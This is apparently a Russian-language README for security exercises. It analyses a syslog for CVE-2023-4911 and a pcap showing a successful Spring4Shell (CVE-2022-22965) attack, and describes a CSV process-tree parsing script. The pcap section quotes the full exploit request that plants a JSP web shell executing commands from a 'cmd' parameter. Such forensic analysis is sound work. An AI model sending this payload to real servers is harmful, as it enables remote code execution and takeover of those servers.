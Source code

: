 # TASK 4
## INFO
Проанализировать независимые файлы `task4_1.txt` и `task4_2.pcap` и описать, какие атаки и\или уязвимости были\не были проэксплуатированы.

### task4_1.txt
Дан лог файла /var/log/syslog. Видно что какая-то из программа постоянно падает с Segmentation Fault при использовании динамической библиотеки ld-linux-x86-64.so.2. После небольшого поиска в интернете находим недавнюю CVE-2023-4911. В [этой](https://www.hackthebox.com/blog/exploiting-the-looney-tunables-vulnerability-cve-2023-4911) статье сказано, что при подобных Segmentation Fault система уязвима.

**Итог**: [CVE-2023-4911](https://nvd.nist.gov/vuln/detail/CVE-2023-4911) | успешно

### task4_2.txt
Дан pcap файл. Запустив wireshark, видим обычное общение tcp общение. Пролистав все tcp стримы, видим странную нагрузку от 10.172.252.93, а именно:
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
 Гуглим и получаем CVE-2022-22965. С [сайта](https://jfrog.com/blog/springshell-zero-day-vulnerability-all-you-need-to-know/) узнаем, что необходимы некотрые параметры для работоспособности эксплойта. Смотрим весь трафик c 10.172.252.93. Замечает неудачный get запрос на /main/tomcatwar.jsp, а после удачный на /tomcatwar.jsp, где сервер отдал нагрузку //, что означает о успехе атаки.
 
**Итог**: [CVE-2022-22965](https://nvd.nist.gov/vuln/detail/cve-2022-22965) | успешно

# TASK 5
## Info
Скрипт, который преобразует task5.csv, добавив поле
process.parent.command_line, в котором содержится process.command_line родителя процесса.

Руководство
```
python3 parse.py -h
```
| --help       | --file       | --output |
|:-------------:|:-------------: |:---------:|
| Помощь | Название csv файла | Название результируемого файла |

## Example
Вывести в файл
```
py parse.py -f=task5.csv -o=out.csv
```
Вывести в stdout
```
py parse.py -f=task5.csv
```
